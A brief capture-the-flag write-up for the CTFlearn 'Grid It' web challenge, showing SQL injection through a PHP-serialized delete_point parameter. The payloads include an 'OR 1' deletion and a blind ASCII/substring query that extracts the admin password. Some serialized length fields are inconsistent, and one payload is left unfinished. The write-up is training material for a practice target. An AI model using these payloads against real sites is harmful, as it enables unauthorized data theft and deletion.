


# Grid It - Web



## Initial Thoughts

* sql injection?

# Walkthrough

Tried several blind sqli on the login with no luck. 

Created a user and logged in to see this grid that we can add and remove points



On hovering a delete link we can see this html

<a href="controller.php?action=delete_point&amp;point=O:5:&quot;point&quot;:3:{s:1:&quot;x&quot;;s:1:&quot;0&quot;;s:1:&quot;y&quot;;s:1:&quot;7&quot;;s:2:&quot;ID&quot;;s:6:&quot;736704&quot;;}">delete</a>

Looks like we might be able to do some sql injection here in the url

```
https://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"300";s:1:"y";s:3:"300";s:2:"ID";s:6:"787705 OR 1";}
```

This deletes all the points. Looks like we can execute commands now

https://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"300";s:1:"y";s:3:"300";s:2:"ID";s:6:"507868 AND Ascii(substring((SELECT password FROM user WHERE username='admin' LIMIT 0,1),{word_offset},1))>{comparing_char}

https://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:%22point%22:3:{s:1:%22x%22;s:1:%221%22;s:1:%22y%22;s:1:%221%22;s:2:%22ID%22;s:6:%22787705%20OR%201%22;}